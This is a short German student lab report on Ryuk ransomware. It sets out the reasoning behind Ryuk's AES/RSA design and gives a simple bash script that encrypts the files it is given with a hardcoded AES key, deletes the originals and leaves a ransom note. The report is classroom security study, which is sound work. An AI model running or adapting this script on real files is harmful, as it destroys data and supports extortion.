

# Arbeitsbericht
 
**Fach: ITSE**
 
**Name: Alexander Schauer**
 
**Klasse: 4AHITS**
 
**Datum: 16.11.2026**
 
**Aufgabenstellung: [Ryuk_Ransomware](https://www.franzmatejka.at/htl/doc/ITSI/lab/ransom_ryuk/01_ryuk.html)**

# Ryuk Argumentationskette
- Weil AES-256-CBC geringe Rechenleistung braucht
- Damit alle Dateien nicht entschlüsselt werden können, wenn ein Key geknackt ist
- Damit das Opfer den AES Schlüssel nicht einfach auslesen kann und somit die Dateien entschlüsseln kann
- Damit die Dateien wiederhergestellt werden können ohne, dass der Hacker Millionen Schlüssel übertragen muss
- Damit Opfer Schlüssel nicht aus Schadprogramm auslesen kann
- Da man bei RSA mit public Key verschlüsselt und das Opfer mit dem Public Key alleine nichts anfangen kann


# Übung 1.1


# Übung 1.2
```bash
#!/bin/bash
for file in $@
do
  openssl aes-256-cbc -in "$file" -K '0106eb4887051520fcf40b5e8fa5acceab272785c1055ce53e3c201b1d3441fe' -iv '0' -out "$file".enc
  rm $file
done
echo "25 Bitcoin zum entschlüsseln" > ransomNote.txt
```

**Erklärung:**
- durch jedes Argument durchloopen
- jedes dieser angegebenen files mit aes-256-cbc verschlüsseln und als .enc speichern
- originaldateien löschen
- ransom note hinterlassen

# Nicht gemacht
- Übung 1.2 nicht ganz fertig
- Übugn 1.3 nicht gemacht
(War 1. Doppelstunde krank)